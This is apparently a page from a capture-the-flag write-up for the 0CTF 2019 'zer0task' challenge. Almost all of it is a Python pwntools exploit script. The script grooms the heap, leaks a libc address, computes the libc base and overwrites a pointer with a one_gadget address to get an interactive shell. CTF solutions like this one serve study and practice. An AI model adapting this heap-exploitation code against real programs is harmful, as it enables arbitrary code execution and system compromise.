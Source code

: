 ```python
sleep(2)
add(7,0x666,"A")
add(8,0x8,"A")
go(7)
free(7)
free(8)
#get the struct of index7
add(9,0x78,p64(0x555555758f80-0x0000555555757000+heap)+p64(8)+p32(1)+"A"*0x20+"B"*0x10+"\x00"*0x14+p64(0x0000555555758300-0x0000555555757000+heap)+p64(0x00005555557589a0))
p.readuntil("Ciphertext: \n")
pd=""
for x in  p.readline().split():
	pd+=chr(int("0x"+x,16))
libc=ELF("./libc-2.27.so")
base=(DE(pd))-(0x7ffff776dca0-0x7ffff73d1440+libc.symbols['system'])
log.warning(hex(base))
sleep(2)
add(10,0x8,'A')
add(10,0x8,'A')
add(10,0x8,'A')
add(10,0x8,'A')

add(0,0x8,"A")
add(1,0x8,"B")
add(2,0x8,"C")
add(3,0x8,"D")
add(4,0x8,"E")

free(0)
free(1)
go(2)
free(2)
free(3)
free(4)
add(5,0x8,"B")
one=0x10a38c
add(6,0xa8,p64(0x555555759b90-0x0000555555757000+heap)+p64(0x1)+p64(0x1)+'\x00'*0x8+p64(one+base))
p.interactive("n132>>")
```
-

[1]: https://github.com/n132/Watermalon/tree/master/0CTF_2019/zer0task
